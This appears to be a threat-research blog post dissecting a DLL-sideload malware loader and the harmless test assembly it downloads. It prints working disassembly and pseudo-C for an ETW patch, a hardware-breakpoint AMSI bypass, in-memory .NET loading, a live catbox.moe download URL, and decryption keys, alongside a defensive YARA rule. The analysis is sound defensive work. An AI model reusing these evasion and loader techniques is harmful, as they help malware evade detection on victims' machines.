


# VerShadow / FUD Crypt: A MinGW VERSION.dll Carrier With A Catbox Fallback And A Live Test Payload


I pulled a sample out of the daily backlog this week that did not advertise itself the way most loaders do. There were no UPX magic bytes, no bloated PyInstaller bootstrap, no obvious .NET wrapper that ILSpy could chew through in five seconds. What I had on disk was a 243 KB PE32+ that file(1) cheerfully called a DLL, even though somebody had renamed it to `.exe` before submitting it. The export table announced itself as VERSION.dll. The import table looked like a tutorial on living-off-the-Windows-API. And the symbol table had functions with names like `smaLD9BuiQeSQy_DoWork` and `ZI7vPLTiiXSV`, which is the kind of detail you only see when somebody is trying very hard not to be findable in a YARA rule by string.

After an afternoon of disassembly the picture came into focus. The DLL is a search-order sideload payload, built with the MinGW-w64 toolchain and dropped next to a signed Windows binary that imports `VERSION.dll`. Once the host process loads it, every single Ver* and GetFileVersionInfo* export funnels into a worker called DoWork. That worker stitches together a HTTPS URL on `files.catbox.moe`, downloads an encrypted blob, decrypts it with RC4 and a 32-byte rolling XOR/SUB key, patches `EtwEventWrite` in ntdll, defangs `AmsiScanBuffer` with a hardware breakpoint and a Vectored Exception Handler, then bootstraps the .NET CLR in-process and calls `_AppDomain::Load_3` on the decrypted assembly. The host process is the .NET payload from then on.

I started writing this post while still calling the loader **VerShadow** internally. By the time I was done, the catbox URL turned out to be live, the recovered .NET assembly literally introduced itself as a `FudCrypt Test`, and Ctrl-Alt-Intel research surfaced confirming this loader is one carrier in the **FUD Crypt** Malware-as-a-Service (MaaS) catalogue at `fudcrypt.net`. Catbox.moe is the documented fallback staging location for that platform; Dropbox is the primary. The platform ships 20 carrier profiles disguised as common signed software and serves an estimated 200 customers across 334 observed builds. The sample I am dissecting in this post is `c73947cf188f442bed228f62a3ba5611009fdc2f1878aaed7065db95ede05521`, the VERSION.dll carrier variant. What I want to walk through is the loader recipe and the decryption pipeline, then show what came down the wire when I actually pulled the staged blob.

## Sample at a Glance

| Field | Value |
| --- | --- |
| SHA256 | c73947cf188f442bed228f62a3ba5611009fdc2f1878aaed7065db95ede05521 |
| File type | PE32+ DLL, x86_64 |
| Size on disk | 243 204 bytes |
| Image base | 0x2BD2D0000 |
| Subsystem | Windows GUI |
| Compiler | x86_64-w64-mingw32 GCC 9.3-win32 / 10-win32 (`-O2 -fno-PIE -g`) |
| Forwarded as | `VERSION.dll` (17 exports) |
| Section count | 19 (DWARF and CRT bloat included) |
| Compile timestamp | 2026-11-26T21:18:03Z (forged, future-dated) |
| Stage-2 URL | hxxps[:]//files[.]catbox[.]moe/v5fllr[.]bin |
| Stage-2 cipher | RC4 (16-byte key) + per-byte SUB/XOR (32-byte rolling key) |
| In-memory runtime | .NET v4.0.30319 via `_AppDomain::Load_3` |

## Kill Chain



The plumbing is reproducible. Every step downstream of the sideload event is concentrated inside a single function (`DoWork`). The CLR bootstrap accounts for roughly half of the function body and the AMSI bypass accounts for another quarter. The actual networking and decryption are tight: about 220 instructions for stack-string assembly, two API calls for download, two passes for crypto, and one CLR call for execution.

The chart forks at the `_AppDomain::Load_3` step into two clearly labelled endings, because the loader does not care which of them runs and the two are observed in different places. The teal branch on the left is what actually executed when I pulled the live `v5fllr.bin` from the catbox fallback and ran my decryptor: a four-line `TestPayload.Program::Main` that writes a Desktop file and pops a dialog, then exits and lets the message pump idle. The orange / red / purple branch on the right is the production behaviour that the FUD Crypt platform ships to paying customers via the Dropbox primary path, reconstructed from the Ctrl-Alt-Intel and CyberSecurityNews reporting on the platform: a real per-customer .NET agent that persists with a `WindowsUpdateSvc` registry Run key plus a `MicrosoftEdgeUpdateCore` scheduled task, masquerades the process by rewriting PEB fields, and beacons HTTPS to `mstelemetrycloud.com` for operator commands. Same loader, same crypto pipeline, same DLL sideload trick. The only thing that changes between the two endings is which `.NET` blob the catbox or Dropbox URL was last pointed at.

## How It Gets Into A Process

Before the export table, a quick refresher on the Windows DLL search order, because that is the entire mechanism the carrier rides on. When a process imports a DLL by base name (no full path), the loader walks a fixed list of directories in order and uses the first hit. With Safe DLL Search Mode (the default since XP SP2 and not configurable off in any modern Windows install) the order is: the directory of the loading EXE first, then `System32`, then the 16-bit system dir, then `C:\Windows`, then the current directory, then the `PATH`. The legitimate `version.dll` lives in `System32`. If anything bearing the name `version.dll` exists in the EXE's own directory, the loader takes that one and stops looking. That is DLL search-order hijacking in one sentence.



The diagram above traces both paths the loader could take when `OneDrive.exe` asks for `version.dll`: the green path on the left is the unhijacked case where the loader walks straight to `System32` and pulls the Microsoft-signed copy; the red path on the right is what happens once the operator has dropped the carrier into `%LOCALAPPDATA%\Microsoft\OneDrive\` and the loader hits Step 1 first. From the carrier's `DllMain` onwards, the host's expectations are met just enough to keep it alive (`DllMain` returns TRUE, the export stubs return zero) while `DoWork` runs the entire chain documented in the kill chain diagram above.

The sideload itself is mechanical. The DLL exports the entire surface area of the real `VERSION.dll`:

```
VerQueryValueA  VerQueryValueW
VerFindFileA    VerFindFileW
VerInstallFileA VerInstallFileW
VerLanguageNameA VerLanguageNameW
GetFileVersionInfoA / W / ExA / ExW / SizeA / SizeW / SizeExA / SizeExW / ByHandle
```

Every one of those functions is a stub that calls the worker exactly once and then returns zero. The "exactly once" gate is a four-byte global at `.bss:0x8020`. Putting the flag in `.bss` zero-fills it on load and lets it survive any refcount-zero unload-and-reload by the host without ever resetting.

```c
// pseudo-C reconstruction of any of the 17 exported stubs

DWORD g_done = 0;            // .bss:0x8020

BOOL GetFileVersionInfoA(LPCSTR file, DWORD h, DWORD len, LPVOID dst) {
    if (g_done)                  // already triggered: silently return zero
        return 0;
    g_done = 1;
    smaLD9BuiQeSQy_DoWork();     // payload trampoline
    return 0;
}
```

DllMain itself is almost a no-op. It calls `DisableThreadLibraryCalls` on the module handle, `GetModuleFileNameA` to read its own path, then `LoadLibraryA` on that path so the host cannot accidentally unload it later. This pin-in-memory trick comes up a lot in DLL sideload loaders that want to outlive the original consumer of `VERSION.dll`.

### Which Host Was The Carrier Designed For?

Importantly, the carrier is **host-agnostic** at runtime. DllMain never reads the host process name, never checks the parent path, never branches on which export was hit. Any 64-bit signed binary that imports `VERSION.dll` and ends up calling any one of the 17 forwarded exports will trigger DoWork exactly once and then run the full chain. That is exactly how FUD Crypt sells "20 carrier profiles" with one underlying loader: the same DLL drops next to whichever signed host the customer chooses, and the platform just packages it with the right host binary plus an installer that places both files in the right writable directory.

That said, the public reporting on FUD Crypt (Ctrl-Alt-Intel) calls out the documented carrier set as Zoom, ProtonVPN, Slack, Visual Studio Code, OneDrive, CCleaner, plus a separate `WindowsDF.exe` + `mpclient.dll` variant. Of those, the carrier most likely matched to a 64-bit `VERSION.dll` proxy is **Microsoft OneDrive** (`OneDrive.exe`, installed at `%LOCALAPPDATA%\Microsoft\OneDrive\OneDrive.exe`). The fit is good on every axis:

- **OneDrive imports `VERSION.dll`** natively for its update logic, so all 17 of the proxy's exports are reachable from normal program flow.
- **OneDrive is 64-bit since 2020**, which matches our PE32+ x86_64 carrier. The proxy will not load into a 32-bit host, so any 32-bit-only candidate is ruled out architecturally.
- **OneDrive installs and self-updates into a per-user, user-writable path** (`%LOCALAPPDATA%\Microsoft\OneDrive\`). Dropping a sibling `version.dll` next to `OneDrive.exe` requires zero elevation, which matches FUD Crypt's pitch of running fully unprivileged.
- **OneDrive is Microsoft Authenticode-signed**, which lets the loader inherit Microsoft trust on every EDR query about the parent process. Pair that with FUD Crypt's documented abuse of Microsoft Azure Trusted Signing for the .NET stage and the customer ends up with a Microsoft-signed parent loading a Microsoft-Azure-trusted-signed assembly, both inside the same process tree.
- **OneDrive sideloading via `version.dll` is the single most-abused VERSION.dll vector in the wild** (Palo Alto Unit 42 documented it in 2022, multiple public PoCs exist on GitHub, Brute Ratel C4 uses it, Splunk has a dedicated detection rule for it).

Secondary candidates from FUD Crypt's carrier list that also import `VERSION.dll` and could plausibly be the intended host include **CCleaner.exe** (Piriform-signed) and some **Zoom** helpers. Visual Studio Code (`Code.exe`) and Slack are Electron apps and do not import `VERSION.dll` directly, so they would map to a different carrier proxy in the platform's catalogue. The `WindowsDF.exe` + `mpclient.dll` profile is a separate carrier entirely (it sideloads `mpclient.dll`, not `version.dll`).

A cautionary note on confidence: this is a best-guess match between the carrier's static characteristics (64-bit, VERSION.dll proxy, host-agnostic DllMain) and the FUD Crypt carrier catalogue described in public reporting. I do not have direct evidence of the deployed parent: the original drop path is not preserved in the MalwareBazaar entry, the operator submitted the file to Hybrid Analysis with a `.bin` extension rather than `version.dll`, and HA's sandbox detonated the carrier under `rundll32.exe` (a generic harness, not the real intended host). If you are hunting these in your environment, the highest-signal pivot is to look for `version.dll` loaded from `%LOCALAPPDATA%\Microsoft\OneDrive\` (or any non-System32 path), in a Microsoft-signed parent, with WININET activity going out to `files.catbox.moe` or to Dropbox, and the parent process holding non-zero DR0 / DR7 thread-context values.

## The ROR-13 GetProcAddress-By-Hash

Before I trace the worker, let us look at the function that everything else leans on. The mangled symbol `_ZL12ZI7vPLTiiXSVP11HINSTANCE__m` demangles to `ZI7vPLTiiXSV(HINSTANCE__*, unsigned long)`. It walks the export directory of any HMODULE you hand it and returns the function whose name hashes to the value you provide. The hash is the textbook "ror edx, 13; add edx, byte" loop that every pen-tester has seen since 2003.

```asm
; hash inner loop, lifted verbatim from .text:0x2bd2d13e0
loop_top:
    ror   edx, 0x0d
    add   rcx, 1                ; advance pointer into name
    add   edx, eax              ; mix in current byte
    movsx eax, byte ptr [rcx]   ; next byte
    test  al, al
    jne   loop_top              ; stop on NUL terminator
    cmp   edx, r11d             ; r11d holds the requested hash
    je    found
```

```python
# A faithful ROR-13 implementation that matches the loader.
def ror13(name: str) -> int:
    h = 0
    for c in name:
        h = ((h >> 13) | (h << (32 - 13))) & 0xFFFFFFFF
        h = (h + ord(c)) & 0xFFFFFFFF
    return h

assert ror13("EtwEventWrite")  == 0x2047C3EE
assert ror13("AmsiScanBuffer") == 0x9550151E
```

Two hashes appear in `DoWork`, embedded as `mov edx, imm32` immediates next to the calls into the resolver. They are the targets of the two evasion patches we will see in a moment.

## DoWork, Annotated

`DoWork` is one big function with five logical phases. I will go through them in the order the function executes.

### Phase 1: Anti-debug and Sleep Jitter

```asm
; check_for_debugger:
call qword [imp.GetCurrentProcess]
lea  rdx, [stack_flag]
mov  rcx, rax
call qword [imp.CheckRemoteDebuggerPresent]
call qword [imp.IsDebuggerPresent]
or   eax, dword [stack_flag]
jne  decoy_branch                 ; either source flips the trigger

; jitter:  sleep_ms = (GetTickCount() % 1476) + 1235
call qword [imp.GetTickCount]
mov  ecx, 0xb19ab5c5              ; 32-bit reciprocal of 1476
imul rdx, rcx                     ; multiplicative modulo trick
shr  rdx, 0x2a
imul edx, edx, 0x5c4              ; 0x5c4 = 1476
sub  eax, edx                     ; rax = GetTickCount() % 1476
lea  ecx, [rax + 0x4d3]           ; +1235 = floor on the sleep
call qword [imp.Sleep]
```

The decoy branch is more cosmetic than functional. It computes `(GetTickCount() ^ 0x6705BDB2) * 0x72`, stashes the result into a global, and falls through to a clean return. Nothing else looks at that global. The point is to hand the analyst a non-trivial routine to chase if they get there with a debugger attached. The randomised sleep is more interesting because it is not a constant: 1235 to 2710 milliseconds are the kind of values that smear over Cuckoo's default per-process timeout if you run the loader through a fast-bake sandbox.

### Phase 2: Catbox Stage-2 Download

The URL is built one qword at a time with `movabs` instructions. Stack strings are exactly the kind of thing that defeats lazy `strings(1)` runs and ROP-style YARA hooks looking for whole literals.

```asm
; URL bytes
movabs rax, 0x2f2f3a7370747468   ; "https://"
movabs rdx, 0x61632e73656c6966   ; "files.ca"
mov    dword [rsp+0x150], 0x6e6962 ; "bin\0"
movabs rax, 0x656f6d2e786f6274   ; "tbox.moe"
movabs rdx, 0x2e726c6c6635762f   ; "/v5fllr."

; User-Agent bytes
movabs rax, 0x2f616c6c697a6f4d   ; "Mozilla/"
movabs rdx, 0x6957203b302e3031   ; "10.0; Wi"
movabs rax, 0x33352f74694b6265   ; "ebKit/53"
mov    dword [rsp+0x198], 0x36332e37 ; "7.36"
```

Concatenated:

```
URL:        https://files.catbox.moe/v5fllr.bin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
```

`InternetOpenA` builds the WinINet handle, `InternetOpenUrlA` opens the resource, then a 16 MB `VirtualAlloc(MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE)` buffer is filled by an `InternetReadFile` loop that reads at most 0x10000 bytes per call and stops when the API succeeds with zero bytes read. The total bytes received live in `rsi` for the rest of the function, which is also the cipher-text length passed to RC4 and the staged transform.

### Phase 3: Decrypt The Stage Two

The crypto is a simple two-pass scheme. The first pass is RC4 with a 16-byte key embedded at `.data:0x4030`. The second pass walks the RC4 output and applies a per-byte SUB-then-XOR using a 32-byte key that lives right next to the RC4 key at `.data:0x4040`.

```python
RC4_KEY = bytes.fromhex("3089F010897626B235AC34723F5ED64C")
KEY32   = bytes.fromhex(
    "3255803F115D04014145C5D685F6FB26"
    "E1E5315FD3E206DD6CB21607F297CB63"
)

def vershadow_decrypt(ct: bytes) -> bytes:
    out = rc4(RC4_KEY, ct)        # standard RC4 (KSA + PRGA)
    return bytes(
        ((b - KEY32[(i + 1) & 0x1F]) & 0xFF) ^ KEY32[i & 0x1F]
        for i, b in enumerate(out)
    )
```

The full implementation lives in `scripts/decrypt_stage2.py`. The output is a clean PE that begins with `MZ`. The loader feeds it directly to `_AppDomain::Load_3` so it must be a valid managed assembly with an entry point that takes `string[]`.

### Phase 4: Silence Defender (ETW Patch and AMSI Hardware Breakpoint)

The first surgical move is on `ntdll!EtwEventWrite`. The loader resolves the function via the ROR-13 hash `0x2047C3EE`, flips the page to `PAGE_EXECUTE_READWRITE`, writes a single byte (`0xC3`, the encoding of `ret`), then flips the protection back. Anything in user space that calls EtwEventWrite from this process forward returns immediately without writing a single ETW event.

```asm
mov  edx, 0x2047c3ee                       ; ror13("EtwEventWrite")
call ZI7vPLTiiXSV                          ; rax = &EtwEventWrite

mov  r9, rbp                               ; out: old protect
mov  r8d, 0x40                             ; PAGE_EXECUTE_READWRITE
mov  edx, 1                                ; size = 1 byte
mov  rcx, rax                              ; lpAddress = &EtwEventWrite
call rbx                                   ; VirtualProtect

mov  byte [r14], 0xc3                      ; *EtwEventWrite = ret

mov  r9, rbp
mov  edx, 1
mov  r8d, dword [old_protect]
mov  rcx, r14
call rbx                                   ; VirtualProtect (restore)
```

The second move is the AMSI bypass. Instead of overwriting the `AmsiScanBuffer` prologue (which is a textbook detection by EDR), this loader attaches a hardware breakpoint at the function entry and an exception handler that swallows the resulting fault.

The string `amsi.dll` is built XOR-encoded with the constant `0x11`. The bytes `70 7C 62 78 3F 75 7D 7D` come out as `a m s i . d l l` once you XOR each byte against `0x11`.

```asm
; decode "amsi.dll" inline before LoadLibraryA
movabs rax, 0x7d7d753f78627c70    ; "p|bx?u}}" obfuscated
mov    [rdx + 0x10], rax
mov    eax, 0x70                  ; first byte sentinel
xor_loop:
    xor  eax, 0x11
    inc  rdx
    mov  [rdx - 1], al
    movzx eax, byte [rdx]
    test al, al
    jne  xor_loop
```

Once `amsi.dll` is mapped, `AmsiScanBuffer` is resolved with hash `0x9550151E`, the page is bumped to `PAGE_EXECUTE_READWRITE` (six bytes nominally; VirtualProtect rounds up to a page), and a Vectored Exception Handler is installed. The handler's address is stashed in a global so the VEH can recognise the breakpoint when it fires.

```asm
; install the VEH
lea  rdx, [veh_handler]            ; PVECTORED_EXCEPTION_HANDLER
mov  ecx, 1                        ; FIRST handler in the chain
call qword [imp.AddVectoredExceptionHandler]

; arm a hardware breakpoint on AmsiScanBuffer.
; Note: 0x100010 is written to CONTEXT.ContextFlags BEFORE GetThreadContext,
; not to Dr7. CONTEXT_AMD64 (0x00100000) | CONTEXT_DEBUG_REGISTERS (0x00000010)
; tells GetThreadContext to populate Dr0..Dr7 in the returned struct.
mov  dword [ctx + 0x30], 0x100010   ; CONTEXT.ContextFlags = AMD64|DEBUG_REGISTERS
call qword [imp.GetCurrentThread]   ; rax = (HANDLE)-2 (pseudo-handle)
lea  rdx, [ctx]
mov  rcx, rax
call qword [imp.GetThreadContext]   ; populates ctx.Dr0..Dr7

; now configure the breakpoint slot:
mov  qword [ctx + 0x48], &AmsiScanBuffer  ; CONTEXT.Dr0 = target address
mov  rax, qword [ctx + 0x70]              ; CONTEXT.Dr7 (current value)
and  rax, 0xfffffffffffffff0              ; clear DR0 R/W and LEN nibble
or   rax, 1                                ; set L0 (DR0 Local Enable)
mov  qword [ctx + 0x70], rax              ; with R/W0=00 (execute) and LEN0=00 (1 byte)
call qword [imp.SetThreadContext]
```

When AmsiScanBuffer is reached, the CPU raises `EXCEPTION_SINGLE_STEP` (0x80000004). The handler verifies the fault address matches the cached `&AmsiScanBuffer`, writes `E_INVALIDARG` (0x80070057) into the saved `Rax` slot of the CONTEXT, then walks the faulted thread's saved stack: it reads the qword at `[saved Rsp]` (which is AmsiScanBuffer's own return address, pushed by the original `call`), bumps `saved Rsp` by 8 to "pop" that return address, and writes that address into the saved `Rip`. When the kernel resumes the thread, execution jumps straight to AmsiScanBuffer's caller as if the function had returned normally with `E_INVALIDARG`. The handler returns `EXCEPTION_CONTINUE_EXECUTION`. Nothing was scanned. Nothing was written. The patch is invisible in user-mode tools that watch for `0xB8 0x57 0x00 0x07 0x80` mov-eax patches at the AMSI entry, because nothing is patched at the entry.

```asm
; veh_handler (sym.UF86nZQWPjSqH4)
xor  r8d, r8d
mov  rax, qword [rcx]               ; ExceptionRecord
cmp  dword [rax], 0x80000004        ; STATUS_SINGLE_STEP ?
jne  not_us
mov  rdx, qword [g_amsi_addr]
cmp  qword [rax + 0x10], rdx        ; ExceptionAddress == &AmsiScanBuffer ?
jne  not_us
mov  rax, qword [rcx + 8]           ; ContextRecord
mov  edx, 0x80070057                ; E_INVALIDARG
mov  qword [rax + 0x78], rdx        ; CONTEXT.Rax
mov  rdx, qword [rax + 0x98]        ; CONTEXT.Rsp
mov  rcx, qword [rdx]               ; saved RIP at top of stack
add  rdx, 8
mov  qword [rax + 0x98], rdx
mov  qword [rax + 0xf8], rcx        ; CONTEXT.Rip = caller's RIP
not_us:
mov  eax, r8d
ret
```

### Phase 5: Bootstrap CLR And Run The Assembly

Everything after the AMSI bypass is a textbook in-process CLR loader. `CoInitializeEx` sets up COM, `mscoree.dll` is loaded, `CLRCreateInstance` returns an `ICLRMetaHost`, the CLR v4.0.30319 runtime is fetched, an `ICorRuntimeHost` is started, and the default app domain is queried for the `_AppDomain` interface. The `Load_3` overload accepts a `SAFEARRAY` of `VT_UI1`, which is exactly what the loader fills from the decrypted stage-2 buffer.

```c
// pseudo-C of the CLR sequence inside DoWork
ICLRMetaHost   *meta;
ICLRRuntimeInfo *rt;
ICorRuntimeHost *host;
IUnknown       *domainUnk;
_AppDomain     *domain;
_Assembly      *asm_;
_MethodInfo    *entry;

CLRCreateInstance(&CLSID_CLRMetaHost,  &IID_ICLRMetaHost,    &meta);
meta->GetRuntime(L"v4.0.30319", &IID_ICLRRuntimeInfo, &rt);

BOOL loadable;
rt->IsLoadable(&loadable);
rt->GetInterface(&CLSID_CorRuntimeHost, &IID_ICorRuntimeHost, &host);
host->Start();
host->GetDefaultDomain(&domainUnk);
domainUnk->QueryInterface(&IID__AppDomain, &domain);

// Stage-2 buffer wrapped in a SAFEARRAY<UI1>
SAFEARRAY *raw = SafeArrayCreate(VT_UI1, 1, &(SAFEARRAYBOUND){.cElements = blob_len});
void *p; SafeArrayAccessData(raw, &p);
memcpy(p, decrypted_blob, blob_len);
SafeArrayUnaccessData(raw);

domain->Load_3(raw, &asm_);

VARIANT args;     // SAFEARRAY of BSTR for argv
asm_->get_EntryPoint(&entry);
entry->Invoke_3(VARIANT_NULL, args);
```

The trailing message pump (`GetMessageA` / `TranslateMessage` / `DispatchMessageA`) keeps the host process pumping while the .NET payload runs. The loader takes responsibility for releasing the COM objects (`Release` calls in reverse order), then `CoUninitialize`. By that point the host is whatever the .NET assembly says it is.

## What Capa And A Few Strings Pull Out

The threat-intel pipeline ran capa first and the only signal it gave back was "this binary needs to be reverse engineered." Capa's reverse-guidance flagged shellcode, XOR, configuration, and injection focus areas. Five of the rules that matched are worth quoting because they tell you exactly where to look:

- `anti-analysis/anti-debugging/debugger-detection: check for debugger via API` (CheckRemoteDebuggerPresent)
- `anti-analysis/anti-debugging/debugger-detection: check for time delay via GetTickCount`
- `anti-analysis/obfuscation/string/stackstring: contain obfuscated stackstrings`
- `host-interaction/process/inject: allocate or change RWX memory`
- `executable/pe/section/tls: contain a thread local storage (.tls) section`

For a 9 KB code body that is essentially the recipe.

## Stage Two: The URL Was Hot, Pulled It, Reversed It

Most write-ups stop at the loader because the staging URL is dead by the time the analyst gets there. This one was an exception. I ran a `HEAD` against `https://files.catbox.moe/v5fllr.bin` and got back `HTTP/2 200` with `content-length: 0`, which is a known catbox quirk that returns the same headers for purged objects. A real `GET` came back with **4096 bytes**, raw entropy 7.955 (consistent with the encrypted shape), MIME `application/octet-stream`. SHA256 of the ciphertext is `3f631c11de145502d509b5c4b94c461da32ebadf010284c826895e253439b2f5`. The catbox object was **live** at the moment of analysis (2026-04-26), six days after the operator first uploaded the carrier to MalwareBazaar.

Running the recovered keys through the decryption pipeline:

```
$ python3 scripts/decrypt_stage2.py stage2/v5fllr.bin.dl stage2/v5fllr.decrypted
wrote 4096 bytes, magic=b'MZ\x90\x00' -> PE/COFF
```

Decrypted SHA256: `86e9024c21478f7fa59bf95aef8e7bfb869ed872e8a92e7ca19118df0f74f457`. `file(1)` reads it as `PE32 executable (console) Intel 80386 Mono/.Net assembly`. Entropy collapses from 7.955 to 3.759, which is exactly the shape of a small managed assembly with a lot of structured metadata.

### Reversing The .NET Stage Two

With the cleartext `MZ` in hand, this becomes a managed-code reversing problem instead of a native one. Three things to do: walk the PE / Cor20 header, decompile, decide what it actually does. The .NET PE itself is the world's tiniest managed assembly: 4096 bytes, three sections, one import, one MethodDef.

| Field | Value |
| --- | --- |
| Machine | I386 |
| Subsystem | Windows console (3) |
| ImageBase | 0x00400000 |
| EntryPoint RVA | 0x25DE |
| TimeDateStamp | 2026-11-26T21:01:02Z (forged, future-dated, same operator habit as the loader) |
| Sole import | `mscoree.dll!_CorExeMain` |
| .text / .rsrc / .reloc | 1508 / 1288 / 12 bytes |
| COR20 runtime version | 2.5 (header field, the assembly itself targets v4) |
| COR20 flags | 0x00000001 (COMIMAGE_FLAGS_ILONLY) |
| Entry token | 0x06000001 (MethodDef row 1 = `TestPayload.Program.Main`) |
| .rsrc | RT_GROUP_ICON placeholder + VS_VERSION_INFO (`OriginalFilename = test_dotnet_payload.exe`) |
| Manifest | default VS app.manifest (`asInvoker`, `uiAccess=false`, `MyApplication.app`) |
| Managed refs | mscorlib, System, System.IO, System.Reflection, System.Runtime.CompilerServices, System.Windows.Forms |

Loaded into ILSpy, the entry token at `0x06000001` resolves cleanly to `TestPayload.Program::Main`. The IL body has no obfuscation, no string-encryption, no anti-debug, no resource-stage decryption, no reflection, no post-exec network. ILSpy gave back the entire program in one screen:

```csharp
using System;
using System.IO;
using System.Reflection;
using System.Runtime.CompilerServices;
using System.Windows.Forms;

[assembly: CompilationRelaxations(8)]
[assembly: RuntimeCompatibility(WrapNonExceptionThrows = true)]
[assembly: AssemblyVersion("0.0.0.0")]
namespace TestPayload;

internal class Program
{
    [STAThread]
    private static void Main()
    {
        string text = Path.Combine(
            Environment.GetFolderPath(Environment.SpecialFolder.Desktop),
            "dotnet_test_success.txt");
        File.WriteAllText(text, "FudCrypt .NET Build Test - " + DateTime.Now);
        MessageBox.Show(
            "Test payload executed!\n\nFile written to: " + text,
            "FudCrypt Test",
            (MessageBoxButtons)0,
            (MessageBoxIcon)64);
    }
}
```

Translating the IL into behaviour: build a Desktop file path, write `FudCrypt .NET Build Test - <DateTime.Now>` to it, pop a dialog. No file enumeration, no registry write, no scheduled task, no network, no process injection, nothing the loader's evasion suite was designed to hide. This is a builder QA artifact, not weaponised malware. The literal string `FudCrypt .NET Build Test` is what nailed the family attribution. Cross-referencing with public reporting from Ctrl-Alt-Intel and CyberSecurityNews on FUD Crypt confirms the carrier set, the catbox.moe fallback path, the AMSI hardware-breakpoint bypass, the single-byte ETW patch, and the Microsoft Azure Trusted Signing abuse. The C2 (`mstelemetrycloud.com`), the persistence (`WindowsUpdateSvc` Run key, `MicrosoftEdgeUpdateCore` scheduled task) and the rest of the post-exploitation stack live inside the real .NET payload that customers ship via the Dropbox primary path. The catbox fallback in this build was never updated past the operator's smoke test.

The practical outcome is that the decryption pipeline I extracted from the loader is correct, reusable, and good against any VERSION.dll FUD Crypt build that uses the same key pair. If you find a fresh sample with the same RC4 and 32-byte rolling key in `.data`, you can decrypt the staged payload offline. If the keys rotate, the assembly is small enough that pulling them out of `.data` next to the resolver is a five-minute job.

A second YARA rule for the test payload is in `detection/fudcrypt_test_payload.yar`. It looks for the `FudCrypt .NET Build Test`, `Test payload executed!`, `FudCrypt Test`, and `dotnet_test_success.txt` literals in the UTF-16LE string heap of any .NET assembly together with the `_CorExeMain` import. It will catch every other FUD Crypt operator who left a smoke-test build sitting on a public mirror, which is exactly how this analysis got its attribution.

```text
import "pe"

rule FudCrypt_Test_Payload_Stage2
{
    meta:
        author      = "Tao Goldi"
        family      = "FUD Crypt"
        stage       = "QA test payload"
        date        = "2026-04-26"
        version     = 1
    strings:
        $s1 = "FudCrypt .NET Build Test - " wide
        $s2 = "Test payload executed!"      wide
        $s3 = "FudCrypt Test"               wide
        $s4 = "dotnet_test_success.txt"     wide
        $a1 = "TestPayload"                 ascii
        $a2 = "test_dotnet_payload"         ascii
    condition:
        uint16(0) == 0x5A4D and pe.is_pe and
        pe.machine == pe.MACHINE_I386 and
        pe.imports("mscoree.dll", "_CorExeMain") and
        (2 of ($s*) or (1 of ($s*) and 1 of ($a*)))
}
```

## Did Anyone Else Catch This As FUD Crypt?

Short answer: **no engine and no sandbox attached the FUD Crypt name to either hash**. The attribution in this post comes entirely from the literal string `FudCrypt .NET Build Test` recovered out of the decrypted stage two, plus the cross-reference to the Ctrl-Alt-Intel and CyberSecurityNews reporting on the platform.

Detail by source:

| Source | Loader (`c73947cf...`) verdict | Stage-2 (`86e9024c...`) verdict | Family / classification given |
| --- | --- | --- | --- |
| CrowdStrike Falcon (static + ML, via HA) | malicious, 90% confidence | clean | `Win/malicious_confidence_90%` (no specific family name) |
| OPSWAT MetaDefender (26 engines, via HA) | 1 of 26 hit (SentinelOne only) | 0 of 26 | SentinelOne label: `Suspicious` (no family name) |
| Hybrid Analysis sandbox (Falcon Sandbox) | malicious, threat score 86 | no specific threat | `vxFamily: Suspicious` (no family name) |
| MalwareBazaar | retired, no current `get_info` | not present | no `FudCrypt` tag exists |
| VirusTotal | unauthenticated probe blocked (401) | unauthenticated probe blocked (401) | unknown without an API key |
| ANY.RUN / Joe Sandbox / Triage public search | no public report indexed for either hash | no public report indexed | n/a |
| Local threat-intel ML classifier | trojan, low threat level, 99.99% malicious confidence, cluster id 2 | not run on stage-2 | no family name |

Three things follow from that table. First, every commercial verdict on this build collapses to `Suspicious` or `malicious_confidence_<n>%`. None of them used the name **FUD Crypt**, and none of them said **AsyncRAT**, **NanoCore**, **DCRat** or any of the usual suspects either. Second, the silence is consistent with the platform's pitch: a polymorphic per-build crypter that re-randomises section names, function names, key bytes, and stack-string layout on every customer order will never accumulate enough pattern-volume on a single build to earn a stable family label. Third, the attribution this post pins to the sample is OSINT-driven, not signature-driven. The chain is:

1. `FudCrypt .NET Build Test` literal recovered from cleartext stage two.
